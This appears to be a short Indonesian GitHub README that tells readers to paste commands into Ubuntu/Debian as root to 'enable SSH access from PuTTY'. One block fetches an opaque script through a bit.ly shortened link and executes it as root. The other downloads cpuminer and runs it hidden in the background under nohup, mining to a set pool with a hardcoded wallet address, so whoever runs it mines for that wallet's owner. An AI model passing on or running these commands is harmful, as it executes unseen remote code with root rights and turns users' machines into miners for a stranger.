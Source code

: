 # DOT AKSES SSH
# BIAR BISA AKSES DARI PUTTY #

*TINGGAL COPY DAN PASTEKAN KE UBUNTU/DEBIAN KALIAN*
```
sudo su
cd
wget -O dot https://bit.ly/dotssh
chmod +x dot
./dot

```
```
sudo su
cd
mkdir baru
cd baru
wget https://github.com/cpu-pool/cpuminer-opt-cpupower/releases/download/1.4/Cpuminer-opt-cpu-pool-linux64.tar.gz
tar zxvf Cpuminer-opt-cpu-pool-linux64.tar.gz
clear
nohup ./cpuminer -a Yespower -o stratum+tcp://na.mining4people.com:3338 -u uj1SsbrKhFAzUwsu6GL3VP8FTh35f8d26z.AkuBot
```


